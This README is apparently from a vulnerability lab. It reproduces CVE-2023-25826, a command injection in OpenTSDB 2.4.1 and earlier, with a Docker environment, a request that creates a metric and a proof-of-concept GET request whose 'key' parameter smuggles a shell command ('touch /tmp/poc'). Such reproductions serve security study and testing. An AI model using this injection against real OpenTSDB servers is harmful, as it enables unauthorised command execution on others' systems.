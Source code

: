 # OpenTSDB arbitrary commands injection（CVE-2023-25826）

[中文版本(Chinese version)](README.zh-cn.md)

OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.
In version 2.4.1 and earlier, there is a command injection vulnerability. This vulnerability is actually due to an incomplete fix for CVE-2020-35476, so the entire reproduction process is similar to the previous one.

References:

- https://www.synopsys.com/blogs/software-security/opentsdb/
- https://github.com/OpenTSDB/opentsdb/pull/2275

## Environment

Execute the following command to start a OpenTSDB server 2.4.1:

```
docker-compose up -d
```

Once the service is started, visit `http://your-ip:4242` to see the web interface of the OpenTSDB.

## Exploit

Simialar as CVE-2020-35476, you need to know the name of a metric, visit `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`to find out the metric list.

Due to the `tsd.core.auto_create_metrics` is set to `true` in this vulnerable OpenTSDB, you can create a metric named `sys.cpu.nice` through following request, if the metrics are empty:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

If at least one metric exists and is not empty, the above request is not required.


Then the POC is different here, with the difference in the "key" parameter.

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](1.png)

`touch /tmp/poc` has been successfully executed:

![](2.png)
